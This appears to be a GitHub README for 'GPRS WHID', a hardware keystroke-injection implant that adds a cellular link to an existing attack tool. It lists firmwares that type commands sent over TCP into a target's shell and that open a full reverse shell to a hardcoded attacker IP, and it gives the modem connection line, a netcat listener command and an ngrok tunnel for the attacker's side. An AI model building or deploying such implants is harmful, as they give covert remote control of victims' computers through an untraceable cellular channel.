 # GPRS WHID
This project was inspired by [whid-injector/whid-31337](https://github.com/whid-injector/whid-31337)

It extend the inital attack by integrating GPRS connection to it.  
This attack was designed to run on a modified version of the whid Elite with an Atmel Samd instead of an Atmel mega 32U4. 
## Hardware
TODO 
## Firmwares 
### Organisation 
This project provide various attacks each in a different folder: 
- The ``keystoke-injection`` provide a firmware that will open a shell on the target and only write on it every commands received via TCP.
- The ``testserial`` firmware can be used to check the serial connection between the whid and a computer.
- The ``reverseshell-qwerty`` will establish a complete reverse shell between the target and the attacker. It will connect to the hardcoded ip provided in the code and write a payload on the target. 
- The ``reverseshell-AZERTY`` does the same thing but with an  AZERTY target. 
- Inside ``Server`` it is work in progress for the server side of the TCP TUnnel 



### Requirement 
#### Whid side  
- Arduino SAMD boards drivers v1.6.12
- Keyboard Library
- Adafruit Fona Library 

On th .ino file, you will need to add your public IP address and the port your are listenning on: 
```CPP
if(!fona.sendCheckReply("AT+CIPSTART=\"TCP\",\"IPV4 Adress\",\"PORT\"",F("OK"),100))
```
#### Server side 
You need to setup a TCP server available behind a public IPV4 address. Netcat can do it easily:
```bash
netcat -lntvp <port>
```
If you don't have a public IPV4, you can use ngrok.io : 
```bash
ngrok.io => ./ngrok tcp <port>
```